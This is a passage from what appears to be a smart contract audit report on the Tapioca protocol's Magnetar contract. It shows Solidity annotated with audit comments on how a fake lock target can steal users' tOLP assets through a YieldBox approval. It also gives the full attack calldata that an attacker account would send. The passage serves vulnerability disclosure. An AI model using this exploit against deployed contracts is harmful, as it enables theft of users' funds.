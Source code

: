 ```solidity
            //@audit => On this call is when the funds will be stolen, when the lockData.target contract is executed, it has already been granted to spend ALL that Magnetar owns on the YieldBox
              //@audit => So, it's just a matter of executing a `yieldBox.transfer(magnetar,attackerAccount,tOLPSglAssetId,amount)`
            tOLPTokenId = ITapiocaOptionLiquidityProvision(lockData.target)
                .lock(
                    lockTo,
                    address(singularity),
                    lockData.lockDuration,
                    lockData.amount
                );
            _revertYieldBoxApproval(lockData.target, yieldBox);
          
            //@audit => The result is that all tOLP user's assets were stolen and transfer to an account owned by the Attacker!
        }
        ...
        ...
        ...
    }

```

- This is how it would looks like the calldata when performing this attack, **only locking tOLPs, no minting, no depositing...**
```
await magnetar
.connect(attacker)
.mintFromBBAndLendOnSGL(
  user.address,
  0,
  {
      mint: false,
      mintAmount: 0,
      collateralDepositData: {
          deposit: false,
          amount: 0,
          extractFromSender: false,
      },
  },
  {
      deposit: false,
      amount: 0,
      extractFromSender: true,
  },
  {
      lock: true,
      amount: amountToBeLocked,
      lockDuration: 0,
      target: fakeLock.address,
      fraction: erc20UserTokenBalanceBeforeAttack,
  },
  {
      participate: false,
      target: ethers.constants.AddressZero,
      tOLPTokenId: 0,
  },
  {
      singularity: wethUsdcSingularity.address,
      magnetar: magnetar.address,
      bigBang: ethers.constants.AddressZero,
  },
);
```